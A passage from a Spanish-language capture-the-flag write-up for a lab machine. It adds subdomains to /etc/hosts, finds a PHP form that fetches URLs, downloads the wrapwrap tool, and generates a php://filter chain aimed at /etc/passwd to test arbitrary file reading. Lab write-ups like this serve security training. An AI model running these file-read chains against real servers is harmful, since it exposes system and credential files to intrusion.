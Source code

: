 Se actualiza el archivo `/etc/hosts` para poder acceder al nuevo subdominio.

```terminal
/home/kali/Documents/thl/thlcppt_v16:-$ sed -i '$d' /etc/hosts
/home/kali/Documents/thl/thlcppt_v16:-$ echo '192.168.0.138\tthlcpptv16.thl\texamen.thlcpptv16.thl\texamendos.thlcpptv16.thl' | sudo tee -a /etc/hosts
```

---

Al acceder al nuevo subdominio, se encuentra un formulario que solicita una url junto con archivos `.json` o `.txt`. El texto `Filter it! WrapWrap it!` sugiere el uso de filtros y wrappers de PHP para manipular contenido.

![](assets/img/thl-writeup-thlcppt_v16/thlcppt_v162_3.png)

Encuentro la herramienta [wrapwrap](https://github.com/ambionics/wrapwrap), que genera una cadena de `php://filter` para incluir prefijos y sufijos al contenido de un archivo. Según la descripción, permite envolver archivos y formatearlos como JSON bajo el esquema `{"message":"<contenido>"}`.

Se descarga el script y se instala la dependencia necesaria.

```terminal
/home/kali/Documents/thl/thlcppt_v16:-$ wget https://raw.githubusercontent.com/ambionics/wrapwrap/refs/heads/main/wrapwrap.py

(venv)-/home/kali/Documents/thl/thlcppt_v16:-$ pip install ten
```

Genera un archivo `chain.txt` apuntando a `/etc/passwd` para verificar la viabilidad del ataque.

```terminal
(venv)-/home/kali/Documents/thl/thlcppt_v16:-$ ./wrapwrap.py /etc/passwd '{"message":"' '"}' 1000
[*] Dumping 1008 bytes from /etc/passwd.
[+] Wrote filter chain to chain.txt (size=705031).
```
